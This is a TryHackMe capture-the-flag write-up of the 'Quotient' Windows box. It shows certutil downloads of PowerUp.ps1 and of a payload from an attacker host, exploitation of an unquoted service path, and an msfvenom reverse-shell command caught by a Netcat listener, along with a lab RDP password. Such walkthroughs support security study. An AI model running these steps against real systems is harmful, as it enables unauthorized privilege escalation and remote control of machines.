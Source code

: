 # THM - Quotient

#### Ip: 10.10.191.175
#### Name: Quotient
#### Rating: Easy

----------------------------------------------------------------------

![quotient.png](../assets/quotient_assets/quotient.png)

This box begins a bit different than most THM machines. Here it appears we already have low-privileged access to the machine and can access it via RDP. It appears our task is to escalate privileges and grab a flag from the administrator's Desktop. 

```text
Grammar is important. Don't believe me? Just see what happens when you forget punctuation.

Access the machine using RDP with the following credentials:

Username: sage

Password: gr33ntHEphgK2&V

Please allow 4 to 5 minutes for the VM to boot.
```

I'll RDP to the target using xfreerdp with the credentials provided:

```text
┌──(ryan㉿kali)-[~/THM/Quotient]
└─$ xfreerdp /u:sage /p:'gr33ntHEphgK2&V' /w:1275 /h:650 /v:10.10.191.175:3389 /cert:ignore
```

Once logged in we can check out what kind of privileges we have on the target by running `whoami /all`

![whoami.png](../assets/quotient_assets/whoami.png)

Let's go ahead and transfer over PowerUp.ps1 to help identify a privilege escalation path.

```text
certutil -urlcache -split -f "http://10.6.61.45/PowerUp.ps1" 
```

I'll set up a Python http server on my machine and transfer the file over:

![transfer.png](../assets/quotient_assets/transfer.png)

I can then run the script by importing the module and issuing the command `Invoke-AllChecks`

![all_checks.png](../assets/quotient_assets/all_checks.png)

Nice! PowerUp has identified an unquoted service path we can likely exploit. Because there is a space in between Devservice Files, and it is not wrapped in parenthesis, we should be able to create a malicious file with a reverse shell back to our machine. If we call the file Devservice.exe, it will be executed when we turn on and off the machine or restart the service. 

Let's double check we have write access to the Folder though:

```text
icacls "C:\Program Files\Development Files\ "
```

![write_access.png](../assets/quotient_assets/write_access.png)

Great, looks like we can write to the folder. Let's head back to our attacking machine and create a reverse shell using msfvenom:

```text
┌──(ryan㉿kali)-[~/THM/Quotient]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.6.61.45 LPORT=443 -f exe > Devservice.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Cool, lets transfer this over now. 

After setting up a Python web server we can use the handy Certutil to transfer over the reverse shell:

```text
certutil -urlcache -split -f "http://10.6.61.45/Devservice.exe"
```

Once loaded we can confirm the file is where it needs to be:

![confirm.png](../assets/quotient_assets/confirm.png)

We can now set up a Netcat listener on port 443 on our attacking machine and restart the target:

```text
shutdown /r /t 0
```

After just a minute or so we will catch a shell in our listener and grab the flag!

![flag.png](../assets/quotient_assets/flag.png)

Thanks for following along!

-Ryan

----------------------------------------------------------------------------

